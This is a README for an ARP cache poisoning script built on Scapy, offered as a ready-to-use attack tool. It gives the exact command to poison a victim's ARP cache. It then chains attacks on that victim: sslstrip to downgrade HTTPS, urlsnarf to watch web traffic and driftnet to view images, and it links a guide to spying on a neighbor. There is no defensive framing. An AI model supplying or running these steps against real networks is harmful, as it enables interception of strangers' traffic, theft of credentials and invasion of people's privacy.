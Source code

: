 # arpspoof.py

This script uses Scapy to perform a simple Arp Cache Poisoning attack.

## Setup

First install system dependencies:

	# Fedora 22/23
	sudo dnf install python python-devel python-pip

	# Fedora 21/20/19/18 and CentosOS/REHL 7.1
	sudo yum install python python-devel python-pip

	# Ubuntu/Debian/Backtrack/Kali
	sudo apt-get install python python-dev python-pip

Then install Scapy:

	sudo pip install scapy

Here are some other cool tools that you can use once you have run the script
and created a MITM:

(__sslstrip__)[https://github.com/moxie0/sslstrip]

(__driftnet__)[http://null-byte.wonderhowto.com/how-to/hack-like-pro-use-driftnet-see-what-kind-images-your-neighbor-looks-online-0154253/]

(__dsniff__)[http://www.monkey.org/~dugsong/dsniff/]

## Usage

To perform an arp cache poisoning attack against victim with ip address 192.168.2.75 with
gateway 192.168.2.1 (with interface wlan0):

	python arpspoof.py -i wlan0 -g 192.168.2.1 -t 192.168.2.75

Once you have a MITM, you can downgrade HTTPS traffic to HTTP by running sslstrip in another terminal:

	sslstrip -l 10000

To monitor the victim's web traffic in real time, use urlsnarf (part of dsniff) in another
temrinal:

	urlsnarf -i wlan0

To view all images currently being viewed by the victim, use driftnet in another terminal:

	driftnet

Stop attack by hitting ctrl+c in your arpspoof.py terminal then closing out of all other tools.
